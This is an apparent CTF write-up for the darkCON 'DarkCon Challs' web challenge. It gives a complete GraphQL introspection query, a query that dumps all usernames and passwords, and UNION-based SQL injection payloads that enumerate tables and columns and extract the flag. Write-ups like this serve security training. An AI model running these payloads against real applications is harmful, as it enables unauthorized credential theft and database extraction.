 <h1>DarkCon Challs</h1>
<h4>Description: 
<p>A place where you can see all the challs of darkCON CTF using api but not the flag or can you @_@ ?
PS :- Try to get the flag of this chall xD</p>
<h4>Category: Web</h4>
<h4>Link:http://darkcon-challs.darkarmy.xyz</h4>

There is a login page. If you look at <b>js/auth.js</b> you can see that there is an graphql api bein used.
Now we can capture the request in burp (forward the request to repeater) and try to dump all the schema avilable to us using this payload.
<h4>{__schema{queryType{name},mutationType{name},types{kind,name,description,fields(includeDeprecated:true){name,description,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},isDeprecated,deprecationReason},inputFields{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},interfaces{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},enumValues(includeDeprecated:true){name,description,isDeprecated,deprecationReason,},possibleTypes{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}}},directives{name,description,locations,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue}}}}</h4>
<br></br><img src='./images/Screenshot (105).png' /><br></br>


We have the objects. There is a <b>Query</b> object which has <b>allUsers</b> fields. If you go down you can see that allUsers has three fields id,username and password.
We can get the data with this payload
<h5>query=query+Query{allUsers{id,username,password}}</h5>
This gives us the data in the fields
<br></br><img src='./images/Screenshot (106).png' /><br></br>

Login with admin's creds and then add his cookies to the repeater. We can also see there is a <b>hint</b> feild which takes an <b>chall_id</b> as parameter.The <b>chall_id</b> needs to be a string. If we send a single quote in the chall_id then we get an error saying Problem in our SQL syntax. We can try for sql injection now.We can determine the columns using the union select statement.
<br></br><img src='./images/Screenshot (107).png' /><br></br>
<b>NOTE: You need to put '-1' in the injection instead of 1 at the start to reflect the value at select statement i.e you injection would be '-1 union select 1,2,3'</b>
<br></br>
Value 1 is reflected in the response. 
<br></br>
Now we can get the database with this (in burp repeater add the '+' instead of spaces)
<h4>-1 union select database(),3,4</h4>
Dump tables
<h4>-1 union select group_concat(table_name),2,3 from information_schema.tables where table_schema='darkcon'</h4>
Dump columns
<h4>-1 union select group_concat(column_name),2,3 from information_schema.columns where table_name='flags'</h4>
Now if we dump the chall_flag, we can see that some flags are not visible i.e only some part of the dump is visible thus we need to use substr and look for the right offset to get the flag.
<br></br>
Payload to get the flag is
<h5>-1 union select substr(group_concat(chall_flag),200,500),2,3 from flags</h5>

<h4>FLAG: darkCON{w0ww_y0u_re411y_f0und_m3}</h4>
